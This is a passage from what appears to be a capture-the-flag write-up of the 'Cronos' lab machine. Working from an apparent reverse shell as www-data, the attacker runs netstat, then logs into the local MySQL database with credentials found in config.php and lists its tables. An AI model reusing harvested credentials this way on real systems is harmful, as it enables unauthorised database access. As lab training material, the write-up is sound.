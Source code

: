 ```
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
www-data@cronos:/var/www/admin$ netstat -antp
netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 10.10.10.13:53          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -               
tcp        0    295 10.10.10.13:41540       10.10.14.6:8888         ESTABLISHED 1562/bash       
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       1      0 10.10.10.13:80          10.10.14.6:60918        CLOSE_WAIT  -               
www-data@cronos:/var/www/admin$ 
```

The "config.php" file contains creds for the database running locally, and the netstat output confirms there is a database running locally on port 3306. Let's connect to the database and see if we can find anything useful.

```
www-data@cronos:/var/www/admin$ mysql -u admin -p
mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin;
use admin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)
```